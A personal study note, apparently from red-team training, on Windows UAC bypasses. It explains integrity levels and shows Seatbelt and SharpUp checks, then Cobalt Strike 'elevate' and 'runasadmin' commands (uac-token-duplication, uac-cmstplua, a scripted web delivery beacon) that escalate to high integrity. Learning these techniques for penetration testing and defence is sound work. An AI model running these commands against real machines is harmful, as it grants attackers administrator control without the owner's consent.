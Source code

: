 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[UAC Bypasses]]  
___

## Description:  

A UAC bypass is a technique by which an application can go from **Medium** to **High Integrity** without prompting for consent (User has to be a local Administrator).

By default, applications will run in a Medium Integrity context even if the user is a local administrator.

Some of Microsoft's own trusted, signed applications can "auto-elevate" without UAC.

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different settings such as **Prompt for credentials**, **Prompt for consent** and **Elevate without prompting**.

[[Seatbelt]] can be used to query the configuration applied to a machine.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac

====== UAC ======

ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
EnableLUA (Is UAC enabled?)    : 1
```

Use [SharpUp](https://github.com/GhostPack/SharpUp) to check integrity level and if UAC can be bypassed.

```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.
```

Use the `elevate` command in CS to bypass (best)

```
help elevate
 

elevate [exploit] [listener]

#To see exploits
elevate

elevate uac-token-duplication tcp-local
```

You can also use `runasadmin` command in CS (not as good)
```
help runasadmin

runasadmin [exploit] [command] [args]

#To see exploits
runasadmin

# go to attacks, web drive-by, scripted web delivery (S), select beacon_bind_tcp as # listner
runasadmin uac-cmstplua <insert_beacon_command_from_comment_above>

connect localhost 1337

# to get more privs from here
elevate svc-exe tcp-local

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:47 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
